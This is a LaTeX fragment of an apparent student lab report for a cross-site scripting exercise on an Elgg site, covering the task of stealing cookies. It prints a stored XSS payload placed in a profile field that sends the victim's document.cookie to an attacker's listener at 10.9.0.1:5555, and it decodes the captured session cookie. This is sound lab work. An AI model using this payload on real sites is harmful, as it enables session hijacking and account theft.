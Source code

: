 \section{Task 3: Stealing Cookies from the Victim's Machine}
%
\begin{figure}
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/netcat_listening_cookie.png}
    \caption{User's cookie is sent to the attacker's server.}
    \label{fig:netcat_get_user_cookie}
\end{figure}

We embeded the script below to the field of \emph{Brief description} of Boby's profile:

\begin{lstlisting}[]
    <script>document.write(`<img src=http://10.9.0.1:5555?c=`
                            + escape(document.cookie) + ` >`);
    </script>
\end{lstlisting}

As you can see in \autoref{fig:netcat_get_user_cookie}, user's cookie now was sent to
the attacker's server at {.0.1}. The cookie was embeded
in the URL parameter. {\selectfont \%3D} here is decoded to `='. It means
that the value of parameter {\selectfont c}, \emph{Elgg\%3Dpkq5m1eiag30duldq393fog7lb},
can be decoded as \emph{Elgg=pkq5m1eiag30duldq393fog7lb}.
